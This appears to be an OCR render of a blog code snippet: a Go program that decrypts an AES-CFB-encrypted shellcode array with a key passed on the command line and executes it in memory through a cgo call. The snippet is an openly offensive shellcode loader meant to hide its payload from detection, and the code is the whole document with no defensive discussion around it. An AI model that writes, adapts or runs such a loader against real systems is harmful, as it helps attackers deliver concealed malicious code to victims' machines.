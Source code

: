 
	encShellcode := []byte{
		0x17, 0xdc, 0x65, 0xe5, 0x7b, 0xcf, 0x23, 0xee, 0xfa, 0xb2, 0xb5, 0x80,
		0x88, 0x6b, 0x47, 0xd5, 0x46, 0x3c, 0xbc, 0xe8, 0x1a, 0xd0, 0x39, 0xac,
		0x41, 0x1f, 0xa8, 0xfa, 0xf4, 0xc5, 0xb4, 0x99, 0x1f, 0x9d, 0xda, 0x91,
		0x42, 0x1b, 0xb1, 0x7a, 0x8e, 0x52, 0x50, 0xc2, 0xf6, 0xcc, 0xf3, 0xef,
		0xb5, 0xb2, 0x18, 0x1a, 0x20, 0x66, 0x2b, 0x77, 0xd5, 0x63, 0x8,  0x5,
		0xee, 0xb8, 0xde, 0x4d, 0xd5, 0x5a, 0x7e, 0xd7, 0x68, 0x24, 0x61, 0x8,
		0x44, 0x4d, 0x2,  0x2c, 0xda, 0x50, 0xb4, 0x55, 0x1,  0xa9, 0x3e, 0x99,
		0xd8, 0xfa, 0x39, 0xa6, 0x9b, 0xc9, 0x1f, 0xcd, 0x13, 0xb9, 0xd6, 0x5b,
		0x26, 0x15, 0xbd, 0xd4, 0x80, 0x47, 0x11, 0x4,  0x55, 0xf9, 0xde, 0xa4,
		0x7,  0xd9, 0x4f, 0x2b, 0x9f, 0x51, 0xac, 0x9,  0x91, 0xd2, 0x56, 0x53}

	encShellcodeStr := hex.EncodeToString(encShellcode)

	if len(os.Args[1]) != 16 {
		fmt.Println("ERROR: Key must be 16 chars")
		os.Exit(1)
	}
	//key := []byte("deadbeefdeafface")
	key := []byte(os.Args[1])

	fmt.Printf("[*] Encrypted shellcode:\n")
	for x, element := range encShellcodeStr {
		if x == len(encShellcodeStr)-1 {
			fmt.Printf("%#x", element)
		} else {
			fmt.Printf("%#x,", element)
		}
	}
	fmt.Printf("\n\n")

	fmt.Printf("[x] Key:\n%s\n\n", key)

	// decrypt
	decryptText := decrypt(key, encShellcodeStr)
	fmt.Printf("[*] Decrypted shellcode:\n")
	for x, element := range decryptText {
		if x == len(decryptText)-1 {
			fmt.Printf("%#x", element)
		} else {
			fmt.Printf("%#x,", element)
		}
	}
	fmt.Printf("\n\n[*] Executing shellcode..\n\n")

	C.run_shellcode((*C.char)(unsafe.Pointer(&decryptText[0])))

}

func decrypt(key []byte, text string) []byte {
	ctext, _ := hex.DecodeString(text)

	block, err := aes.NewCipher(key)
	if err != nil {
		panic(err)
	}

	iv := ctext[:aes.BlockSize]
	ctext = ctext[aes.BlockSize:]

	stream := cipher.NewCFBDecrypter(block, iv)
	stream.XORKeyStream(ctext, ctext)

	return ctext
}
{% endhighlight %}
